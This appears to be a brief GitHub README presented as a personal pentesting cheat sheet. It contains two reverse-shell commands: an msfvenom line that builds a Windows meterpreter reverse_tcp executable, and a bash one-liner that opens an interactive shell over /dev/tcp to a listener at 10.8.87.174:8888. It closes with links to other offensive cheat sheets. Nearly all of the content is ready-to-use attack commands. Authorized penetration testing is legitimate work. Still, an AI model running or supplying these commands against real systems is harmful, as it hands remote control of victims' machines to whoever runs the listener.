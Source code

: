 # Pentesting CheatSheet
![Terminal](../Images/hacking.gif)

This is a cheat sheet to pentesting it contains the code snippets i use during my pentesting job.

## ReverseShell
### Msfvenom Windows

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=tun0 LPORT=8989 -o /home/kali/Machine/Crafty/reverse.exe
```
### Bash

```bash
bash -i >& /dev/tcp/10.8.87.174/8888 0>&1
```


# Resource

- **[Read Team Notes](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)**
- **[Hausec](https://hausec.com/pentesting-cheatsheet/)**
- **[Pentest-Cheat-Sheets](https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets)**
